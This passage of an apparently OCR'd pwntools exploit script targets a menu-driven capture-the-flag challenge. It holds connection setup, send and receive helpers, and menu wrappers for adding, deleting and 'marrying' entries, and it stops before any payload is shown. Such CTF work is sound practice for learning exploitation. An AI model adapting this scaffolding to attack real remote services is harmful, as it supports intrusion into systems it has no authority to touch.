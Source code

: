 ```python
		libc_name = './libc.so.6'
	else:
		io = remote(ip, port)
		libc_name = './libc.so.6'

	try:
		libc = ELF(libc_name)
	except:
		pass

cc = lambda : create_connect()
s = lambda x : io.send(x)
sl = lambda x : io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
g = lambda x: gdb.attach(io, x)

r = lambda : io.recv(timeout=1)
rr = lambda x: io.recv(x, timeout=1)
rl = lambda : io.recvline(keepends=False)
ru = lambda x : io.recvuntil(x)
ra = lambda : io.recvall(timeout=1)
it = lambda : io.interactive()
cl = lambda : io.close()

def add(content, size = 0x1, nickname=b'callmecro'):
	sla(b'Choice: ', b'3')
	sla(b'Choice: ', b'3')
	if size < len(content):
		size = len(content)
	sla(b'Now, tell me, what do you look for in a partner: ', str(size).encode())
	sla(b'Give your new male friend a nickname: ', nickname)
	if size == len(content):
		sa(b'For both of you, a little greeting: ', content)
	else:
		sla(b'For both of you, a little greeting: ', content)

def delete(idx):
	sla(b'Choice: ', b'4')
	sla(b'Please choose your male friends to visit: ', str(idx).encode())
	sla(b'Choice: ', b'3')

def get_married(idx, content):
	sla(b'Choice: ', b'6')
	sla(b'marry?', str(idx).encode())
	ru(b'commitment to you: ')
	res = rl()
	sla(b"groom: ", content)
	return res

def pwn():
	cc()

	sla(b'Name: ', b'callmecro')
	sla(b'Age: ', b'20')
	sla(b'Sex (1:man,2: woman): ', b'2')

	for i in range(5):
		sla(b'Choice: ', b'3')
		sla(b'Choice: ', b'2')

	for i in range(16):
		sla(b'Choice: ', b'2')
```